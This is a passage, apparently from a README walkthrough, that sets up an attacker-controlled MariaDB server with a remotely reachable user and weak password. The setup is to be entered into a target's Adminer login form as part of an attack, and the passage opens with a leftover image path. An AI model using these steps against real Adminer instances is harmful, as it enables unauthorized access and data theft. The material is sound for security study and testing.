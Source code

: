 ```sh
sudo pkill mariadb
sudo pgrep mariadb # make sure it is dead
sudo systemctl start mariadb
mysql -u root -p
```

Now create a new database and user for the attack:

```mysql
create database derp;
create table derp.data (data varchar(1024));
grant all privileges on derp.* TO 'derp'@'localhost' identified by 'herpaderp';
grant all privileges on derp.* TO 'derp'@'%' identified by 'herpaderp';
flush privileges;
exit;
```

This creates a DB called `	derp` with a table called `data` that has a single column called `data` that sotres strings (`varchar`) of length 1024. It also creates a user `derp` with the password `herpaderp` that can locally & remotely access the `derp` DB and modify it. Now make the MySQL DB accessible remotely:

- https://webdock.io/en/docs/how-guides/how-enable-remote-access-your-mariadbmysql-database

```sh
sudo systemctl stop mariadb
sudo vim /etc/mysql/mariadb.conf.d/50-server.cnf # change bind-address to 0.0.0.0
sudo systemctl start mariadb 
```

Then enter your IP, username (`derp`), password (`herpaderp`), and database name (`derp`) into the adminer login form.

![](img/adminer-controlpanel.png)
